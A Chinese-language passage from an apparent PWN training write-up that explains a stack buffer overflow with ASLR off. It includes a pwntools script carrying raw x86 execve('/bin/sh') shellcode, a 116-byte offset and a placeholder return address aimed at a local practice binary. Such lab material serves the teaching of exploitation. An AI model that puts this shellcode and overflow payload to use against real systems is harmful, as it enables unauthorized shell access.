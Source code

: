 此时 ASLR 是关闭的。

![](/pics/BIN集训/PWN/三/7.png)

基本的想法是先填入 shellcode，然后通过 ret 的偏移量来跳转到 shellcode 的首地址，执行 `execve("/bin/sh",0,0)` 来 getshell。

shellcode 在之前已经写好了，偏移量也可以通过之前缓冲区溢出的方法来得到。

![](/pics/BIN集训/PWN/三/8.png)

最后应该如何获得 shellcode 的首地址？可以通过如下 payload 来获取。

```python
# test.py
from pwn import *
p = process('./7-11')
raw_input() # 相当于设下断点
shellcode=p32(0xdeadbeef)+"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
addr=p32(0x12345678)
offset=116
payload=shellcode+(offset-len(shellcode))*'A'+addr
p.sendline(payload)
p.interactive()
```
